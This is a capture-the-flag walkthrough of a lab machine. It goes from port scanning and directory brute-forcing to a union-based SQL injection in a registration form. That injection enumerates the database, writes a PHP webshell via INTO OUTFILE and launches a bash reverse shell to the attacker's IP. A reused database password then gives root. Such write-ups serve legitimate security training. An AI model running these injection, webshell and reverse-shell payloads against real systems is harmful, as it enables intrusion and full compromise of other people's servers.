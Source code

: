 # Recon

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.116
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy
```

```bash
nmap -p 22,80,4566,8080 -sVC -oA scans/nmap-tcpdetail 10.10.11.116
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```

```bash
feroxbuster -o scans/endpoints -u http://10.10.11.116
301      GET        9l       28w      309c http://10.10.11.116/js => http://10.10.11.116/js/
200      GET        7l     1608w   140930c http://10.10.11.116/css/bootstrap.min.css
200      GET      268l      747w    16088c http://10.10.11.116/
403      GET        9l       28w      277c http://10.10.11.116/css/
301      GET        9l       28w      310c http://10.10.11.116/css => http://10.10.11.116/css/
403      GET        9l       28w      277c http://10.10.11.116/server-status
```

Other http sites on server didn't yield any useful results when scanned for endpoints.

# Shell as www-data

There is only one input on the page:  
![images/site.png]()  

We begin by using the application as normal user would.
After clicking "Join Now" we see the following:  
![images/join_now.png]()  

It seems, that the site displays your username along with
the usernames of people, who are from the same country.

It looks like there might be an SQL injection here somewhere,
as the data about users is (obviously) stored somewhere, and we
see it output as a table.

Request for creating player looks like this:
```
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif ...
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&country=Brazil
```

In response, we receive a cookie (which is just a md5-hashed username),
and using this cookie we can access user dashboard (second screenshot).

We tested for IDOR vulnerability using common usernames, but there wasn't
any new or interesting data to be acquired.

After some testing we were able to see, that injecting SQL special characters
in country field yielded error:

```
:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

From that, we got to know three things:  
1. This field seems to be vulnerable to SQL injection
2. Webserver home directory is /var/www/html
3. This app is written in PHP

After narrowing down, which special character caused the error, 
we were able to make a simple Union-based SQL injection:
```
...SNIP...
username=adminek&country=' UNION select 1-- -
```

![images/union.png]()  

Now, we will leverage this vulnerability to enumerate
the database and acquire as much information as possible.

First, we get user:
```
' UNION select user()-- -
uhc@localhost
```

Version:
```
' UNION select @@version-- -
10.5.11-MariaDB-1
```

Databases:
```
' UNION select schema_name from INFORMATION_SCHEMA.SCHEMATA-- -

information_schema
performance_schema
mysql
registration
```

Tables in database:
```
' UNION select TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='registration'-- -
registration
```

Columns in table:
```
' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='registration'-- -
username
userhash
country
regtime
```

Sadly, when enumerating usernames in hopes something new would be found, only user-created ones 
were displayed. Maybe another approach is required in order to pwn this box. We will now try to
identify the rights of the user we have, and try to see what else, apart from enumerating the 
database, can we do.

```
' UNION select super_priv from mysql.user where user="uhc"-- -
Y
```

Our user has super privileges in the database.
We will try to write a test file to webserver home. 
If it succeeds, we would be able to upload php webshell, and gain RCE.

```sql
' UNION SELECT "this is a test" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Despite seeing error being thrown, we still successfuly accessed our test file:
![images/test.png]()

Time to upload our webshell:
```sql
' UNION SELECT "<?php system($_REQUEST[0]); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

We will use it to initiate a reverse connection and get a shell:
```bash
curl -s --get \
  --data-urlencode "0=bash -c 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1'" \
  "http://10.10.11.116/shell.php"
```

# Shell as root

In the directory we landed after obtaining reverse shell,
there is a previously unavailable file in there, called config.php.

Inside, there is a database password. It turns out it's also root user
password, which we can use to authenticate as root:

```
su 
Password: uhc-9qual-global-pw
```
